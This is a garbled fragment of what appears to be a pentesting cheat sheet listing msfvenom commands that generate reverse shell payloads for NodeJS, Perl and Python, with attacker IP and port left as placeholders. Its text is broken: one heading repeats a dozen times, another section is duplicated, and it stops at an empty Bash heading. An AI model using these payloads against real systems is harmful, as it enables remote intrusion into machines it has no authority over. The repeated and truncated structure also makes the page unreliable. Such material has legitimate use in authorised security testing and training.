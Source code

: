 ### NodeJS

### NodeJS

### NodeJS

### NodeJS

### NodeJS

### NodeJS

### NodeJS

### NodeJS

### NodeJS

### NodeJS

### NodeJS

### NodeJS
```bash
msfvenom -p nodejs/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port)
```
## **Script Language payloads**

### **Perl**

{% code overflow="wrap" %}## **Script Language payloads**

### **Perl**

{% code overflow="wrap" %}
```bash
msfvenom -p cmd/unix/reverse_perl LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.pl
```
{% endcode %}

### **Python**

{% code overflow="wrap" %}
```bash
msfvenom -p cmd/unix/reverse_python LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.py
```
{% endcode %}

### **Bash**
